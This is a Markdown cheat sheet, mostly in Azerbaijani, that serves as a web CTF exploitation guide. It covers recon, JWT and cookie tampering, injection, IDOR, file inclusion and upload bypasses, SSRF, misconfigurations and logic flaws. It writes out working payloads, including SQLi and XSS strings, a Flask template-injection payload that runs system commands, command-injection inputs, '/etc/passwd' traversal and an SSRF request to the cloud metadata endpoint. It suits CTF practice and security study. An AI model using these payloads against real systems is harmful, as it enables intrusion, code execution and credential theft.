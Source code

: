 # 🧠 Web CTF Exploitation Guide

## 🔍 1. Recon və İlk Mərhələ

* `gobuster`, `dirsearch`, `feroxbuster` ilə gizli URL-ləri tap:

  * `robots.txt`, `.git`, `sitemap.xml`, `.env`, `backup.zip`
  * Subdomain brute-force: `sublist3r`, `assetfinder`, `ffuf`
* Texnologiya identifikasiyası: `whatweb`, `wappalyzer`, `curl -I`

---

## 🔐 2. Authentication və Cookie Hücumları

* Login brute-force: `hydra`, `ffuf`, `admin:admin`
* Zəif JWT:

  * `alg: none` bypass
  * `RS256` → `HS256` dəyişdirərək HMAC ilə signature bruteforce
  * Expired token hələ də işləyir?
* Cookie tampering:

  * `isAdmin=true`, `role=admin`, `uid=1` test et
  * Base64 encoded session: `echo value | base64 -d`
  * Cookie signature yoxlamırsa: `header.payload.` formasında test et
* Session hijacking:

  * Cookie reuse ilə başqa hesabı impersonate et
  * CSRF ilə session reuse

---

## 💉 3. Injection Vulnerabilities

* SQLi:

  * Manual payloadlar: `' OR 1=1 --`, `UNION SELECT null...`
  * `sqlmap` ilə avtomatik sına
* XSS (Stored, Reflected):

  * `<script>alert(1)</script>`
  * `"><img src=x onerror=alert(1)>`
* SSTI (Server-Side Template Injection):

  * Flask: `{{7*7}}`, `{{config}}`, `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
* Command Injection: `;ls`, `| whoami`, file upload input-u ilə sına
* XML Injection / XXE: SSRF və local file read potensialı

---

## 🔄 4. Access Control Flaws

* IDOR:

  * `?id=1`, `?user_id=1`, `?file=invoice.pdf`
* Privilege escalation:

  * JWT və ya cookie-də `role` dəyişdirmə
  * Gizli admin panelləri: `/admin`, `/dashboard`, `/superuser`
* Forced browsing: İcazəsiz URL-ləri birbaşa açmaq

---

## 📂 5. Fayl əsaslı zəifliklər

* LFI:

  * `?page=../../etc/passwd`, `%2e%2e/` variantları
  * `data:text/plain,{{7*7}}` və ya null byte (`%00`) bypass
* File Upload bypass:

  * `image.php.jpg`, `shell.php%00.jpg`
  * Content-Type spoof: `image/jpeg`
* ZIP Slip: Malicious `.zip` faylı ilə serverə yazmaq
* Insecure Deserialization: Pickle/PHP object injection

---

## 🌐 6. Client-Side Flaws

* DOM-based XSS
* Open Redirect: `?redirect=https://evil.com`
* CSRF: Əgər `SameSite` yoxdur və token yoxlanmırsa
* Clickjacking: `X-Frame-Options` yoxdursa
* CORS: `Access-Control-Allow-Origin: *`

---

## 📡 7. SSRF (Server-Side Request Forgery)

* URL parametrləri: `url=`, `load=`, `img=`
* Payloadlar:

  * `http://127.0.0.1:80/`, `http://localhost/admin`
  * `http://169.254.169.254/latest/meta-data/`

---

## 🛠 8. Misconfiguration

* Açıq `phpinfo.php`, `.env`, `config.js`, `debug=True`
* Backup faylları: `index.php~`, `login.bak`

---

## ⏱ 9. Logic və Race Condition

* Shopping cart qiyməti dəyişdirmə
* Promo kodu 2 dəfə istifadə
* Paralel request ilə payment bypass

---

## 🧩 10. Flag Axtarışı və Son Testlər

* Gizli endpointlər: `/flag`, `/admin/export`, `/api/secret`
* JSON response-larda `"flag"`, `"token"`, `"key"`
* Custom header test: `X-Admin: true`, `X-Forwarded-For: 127.0.0.1`

---

